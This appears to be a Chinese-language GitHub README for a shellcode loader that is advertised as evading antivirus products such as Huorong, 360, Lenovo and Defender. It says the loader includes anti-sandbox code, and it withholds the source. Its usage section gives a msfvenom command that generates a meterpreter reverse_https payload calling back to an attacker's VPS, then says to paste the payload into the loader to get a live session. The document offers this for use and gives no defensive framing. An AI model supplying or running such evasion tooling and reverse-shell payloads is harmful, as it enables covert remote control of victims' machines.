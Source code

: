 # shellcode_loader
一款shellcode免杀工具，免杀测试对象火绒 360 联想等其他杀软,源码暂时就不放出来了效果如图。里面加了反沙箱的代码，所以在虚拟机运行会有问题

上线效果如图：
![图片](https://user-images.githubusercontent.com/83112602/171603146-feec6c7a-ab83-4a8f-a921-c21db33e27a8.png)

免杀效果

火绒：![图片](https://user-images.githubusercontent.com/83112602/171603373-f50c1d92-d21f-4666-badc-2b6881e3b0a6.png)
360：![图片](https://user-images.githubusercontent.com/83112602/171603468-4cbad515-e887-4e55-b678-72e56dd13a0b.png)
联想：![图片](https://user-images.githubusercontent.com/83112602/171603645-e25e7e99-c128-494c-83b8-ecc45e01989a.png)
defender：![图片](https://user-images.githubusercontent.com/83112602/171606923-c4f34f41-b1ba-4510-ba7c-f3ae7c7ca370.png)


使用方法 msf生成 payload
msfvenom -p windows/x64/meterpreter/reverse_https  Lhost=vps地址 Lport=vps端口 -f hex

cmd界面输入打开loader输入payload上线
![图片](https://user-images.githubusercontent.com/83112602/171603890-e5ac8e02-433c-44b8-accd-f199cb0f1674.png)
